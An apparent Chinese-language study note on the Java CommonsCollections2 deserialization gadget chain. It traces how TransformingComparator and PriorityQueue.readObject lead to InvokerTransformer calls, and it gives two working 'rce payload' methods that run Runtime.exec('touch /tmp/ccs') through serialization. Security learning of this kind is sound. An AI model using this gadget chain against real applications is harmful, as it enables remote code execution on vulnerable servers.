# java 反序列化 gadgets 学习（CommonsCollections2）
CommonsCollections2 的 gadgets 相对 CommonsCollections1 要简单的多，最大的区别就是把串联`InvokerTransformer`的 gadget 从`ChainedTransformer`改成了`TransformingComparator`


## InvokerTransformer
参考[java 反序列化 gadgets 学习（CommonsCollections1）](https://github.com/muzai/Clog/blob/master/java-security/java-deserialization-gadgets-learning.md)

## TransformingComparator

### 相关属性



### 构造函数



### compare

利用compare方法，构造合适的TransformingComparator实例，显然可以嵌套调用InvokerTransformer实现rce。

### rce payload
```java
public static void testTransformingComparator() throws Exception {
    InvokerTransformer invokerTransformer1 = new InvokerTransformer(
            "getMethod",
            new Class[]{String.class, Class[].class},
            new Object[]{"getRuntime", new Class[0]});

    InvokerTransformer invokerTransformer2 = new InvokerTransformer(
            "invoke",
            new Class[]{Object.class, Object[].class},
            new Object[]{null, new Object[0]});

    InvokerTransformer invokerTransformer3 = new InvokerTransformer(
            "exec",
            new Class[]{String.class},
            new Object[]{"touch /tmp/ccs"});

    TransformingComparator transformingComparator1 = new TransformingComparator(invokerTransformer3);
    TransformingComparator transformingComparator2 = new TransformingComparator(invokerTransformer2, transformingComparator1);
    TransformingComparator transformingComparator3 = new TransformingComparator(invokerTransformer1, transformingComparator2);

    transformingComparator3.compare(Runtime.class, Runtime.class);

}
```

## PriorityQueue

### 相关属性


### 构造函数



### readObject



### heapify

为了方便理解，假设
```java
queue = [Runtime.class, Runtime.class];
size = 2;
comparator = something not null
```
上述代码就成了
```java
es = [Runtime.class, Runtime.class];
n = 2;
i = 0;
// loop only once
siftDownUsingComparator(
    0, 
    Runtime.class, 
    [Runtime.class, Runtime.class],
    2, 
    comparator);
```

### siftDownUsingComparator

承接上述假设
```java
k = 0;
x = Runtime.class;
n = 2;
half = 1;
while {
    child = 1;
    c = Runtime.class;
    right = 2
}
```
理论上这里可以顺利执行compare(Runtime.class, Runtime.class)，但是不知道是否会报数组越界。

我的实际测试jdk版本是1.8.0_221，上述代码有些变化，变化部分包括





这时
```
k = 0;
x = Runtime.class;
half = 1;
child = 1;
c = Runtime.class;
```
这时没有越界问题。

### rce payload
```
public static void testPriorityQueue() throws Exception {
    InvokerTransformer invokerTransformer1 = new InvokerTransformer(
            "getMethod",
            new Class[]{String.class, Class[].class},
            new Object[]{"getRuntime", new Class[0]});

    InvokerTransformer invokerTransformer2 = new InvokerTransformer(
            "invoke",
            new Class[]{Object.class, Object[].class},
            new Object[]{null, new Object[0]});

    InvokerTransformer invokerTransformer3 = new InvokerTransformer(
            "exec",
            new Class[]{String.class},
            new Object[]{"touch /tmp/ccs"});

    TransformingComparator transformingComparator1 = new TransformingComparator(invokerTransformer3);
    TransformingComparator transformingComparator2 = new TransformingComparator(invokerTransformer2, transformingComparator1);
    TransformingComparator transformingComparator3 = new TransformingComparator(invokerTransformer1, transformingComparator2);

    PriorityQueue priorityQueue = new PriorityQueue(transformingComparator3);
    priorityQueue.add(Runtime.class);
    priorityQueue.add(Runtime.class);

    // serialize
    try (ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("TestPriorityQueueSer"))) {
        os.writeObject(priorityQueue);
    } catch (Exception e) {
        e.printStackTrace();
    }

    // deserialize
    try (ObjectInputStream is = new ObjectInputStream(new FileInputStream("TestPriorityQueueSer"))) {
        String anything = (String) is.readObject();
    } catch (IOException | ClassNotFoundException e) {
        e.printStackTrace();
    }
}
```
